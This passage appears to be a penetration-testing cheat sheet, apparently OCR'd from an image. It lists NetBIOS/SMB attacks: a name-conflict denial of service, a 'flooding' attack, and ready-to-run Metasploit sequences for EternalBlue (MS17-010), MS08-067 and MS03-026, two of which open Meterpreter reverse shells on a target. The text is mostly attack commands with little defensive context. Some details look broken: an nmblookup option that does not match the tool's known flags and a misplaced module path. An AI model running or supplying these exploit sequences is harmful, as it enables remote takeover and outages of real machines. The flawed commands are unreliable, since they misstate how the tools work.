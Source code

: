 #### Name Conflict DoS

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    nmblookup -A <target_ip> --conflict
    ```
* **Description:** Repeatedly causing name conflicts to prevent legitimate devices from registering their NetBIOS names, disrupting network communication.

#### NetBIOS Flooding Attack

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use auxiliary/dos/windows/smb/ms09_001_write
    ```
* **Description:** Overwhelm the NetBIOS Session Service with excessive requests, leading to denial of service.

### Exploits

#### MS17-010 (EternalBlue)

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in Microsoft's implementation of the SMB protocol that could allow remote code execution. This exploit was used in the WannaCry ransomware attack.

#### MS08-067 (Conficker Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in the Server service's handling of RPC requests, allowing for remote code execution.

#### MS03-026 (Blaster Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms03_026_dcom
    set RHOST <target_ip>
    run
    ```
* **Description:** A critical vulnerability in the RPC interface that allowed remote code execution. Exploits a heap overflow in the RPCSS service to execute arbitrary code with SYSTEM privileges.
